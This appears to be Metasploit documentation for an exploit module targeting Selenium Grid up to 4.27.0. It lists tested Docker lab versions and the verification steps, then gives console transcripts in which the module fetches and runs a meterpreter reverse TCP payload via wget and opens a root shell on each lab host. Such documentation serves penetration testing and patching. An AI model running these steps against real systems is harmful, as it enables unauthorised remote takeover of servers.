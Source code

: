 ## Vulnerable Application

Selenium Server (Grid) <= 4.27.0 (latest version at the time of this writing)
allows CSRF because it permits non-JSON content types
such as application/x-www-form-urlencoded, multipart/form-data, and text/plain.
At least, the number of sessions must be fewer than maxSessions for the exploit to succeed.

The vulnerability affects:

    * Selenium Server (Grid) <= 4.27.0 (latest version at the time of this writing)

This module was successfully tested on:

    * selenium/standalone-firefox:3.141.59 installed with Docker on Ubuntu 24.04
    * selenium/standalone-firefox:4.0.0-alpha-6-20200730 installed with Docker on Ubuntu 24.04
    * selenium/standalone-firefox:4.6 installed with Docker on Ubuntu 24.04
    * selenium/standalone-firefox:4.27.0 installed with Docker on Ubuntu 24.04


### Installation

1. `docker pull selenium/standalone-firefox:3.141.59`

2. `docker run -d -p 4444:4444 -p 7900:7900 --shm-size="2g" selenium/standalone-firefox:3.141.59`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options
### TIMEOUT (required)

This is the amount of time (in seconds) that the module will wait for the payload to be
executed. Defaults to 75 seconds.


## Scenarios
### selenium/standalone-firefox:3.141.59 installed with Docker on Ubuntu 24.04
```
msf6 > use exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > options

Module options (exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    4444             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   TIMEOUT  75               yes       Timeout for exploit (seconds)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      QqkwqZES         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4445
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 3.141.59 detected, which is vulnerable.
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:47990) at 2024-12-30 12:46:43 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : Ubuntu 20.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### selenium/standalone-firefox:4.0.0-alpha-6-20200730 installed with Docker on Ubuntu 24.04
```
msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4446
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Selenium Grid version 4.x detected and ready.
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.16:33048) at 2024-12-30 12:48:53 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.4
OS           : Ubuntu 18.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### selenium/standalone-firefox:4.6 installed with Docker on Ubuntu 24.04
```
msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4448
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Selenium Grid version 4.x detected and ready.
[*] Meterpreter session 3 opened (192.168.56.1:4444 -> 192.168.56.16:43864) at 2024-12-30 12:58:33 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### selenium/standalone-firefox:4.27.0 installed with Docker on Ubuntu 24.04
```
msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4449
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Selenium Grid version 4.x detected and ready.
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:60066) at 2025-01-02 09:29:36 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 24.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
